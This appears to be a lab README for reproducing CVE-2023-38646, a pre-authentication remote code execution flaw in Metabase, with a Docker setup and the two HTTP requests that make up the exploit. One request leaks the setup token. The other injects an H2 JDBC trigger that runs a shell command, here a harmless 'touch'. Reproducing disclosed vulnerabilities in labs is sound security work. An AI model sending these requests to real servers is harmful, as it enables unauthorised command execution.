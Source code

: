 # Metabase Pre-Auth JDBC Remote Code Execution (CVE-2023-38646)

[中文版本(Chinese version)](README.zh-cn.md)

Metabase is an open source data analytics platform. 

Metabase open source before 0.46.6.1 and Metabase Enterprise before 1.46.6.1 allow unauthenticated attackers to execute arbitrary commands on the server, at the server's privilege level. This issue is caused by JDBC url attacks in the setup request.

References:

- <https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/>
- <https://blog.calif.io/p/reproducing-cve-2023-38646-metabase>
- <https://mp.weixin.qq.com/s/MgfIyq0OJwnKOUF2kBB7TA>

## Vulnerable environment

Execute following command to start a Metabase server 0.46.6:

```
docker compose up -d
```

After the server is started, you can browse the `http://your-ip:3000` to see the installation instructions like that:

![](1.png)

Fill in your information, and skip the data source form.

## Exploit

Firstly, use following request to retrieve the `setup-token`:

```
GET /api/session/properties HTTP/1.1
Host: localhost:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

![](2.png)

The vulnerability can only be exploited by obtaining this setup token.

Secondly, replace your `[setup-token]` into the following request then send it:

```
POST /api/setup/validate HTTP/1.1
Host: localhost:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 739

{
    "token": "[setup-token]",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
            "advanced-options": false,
            "ssl": true,
"init": "CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('touch /tmp/success')\u000A$$"
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

As you can see, `touch /tmp/success` has been executed successfully:

![](3.png)
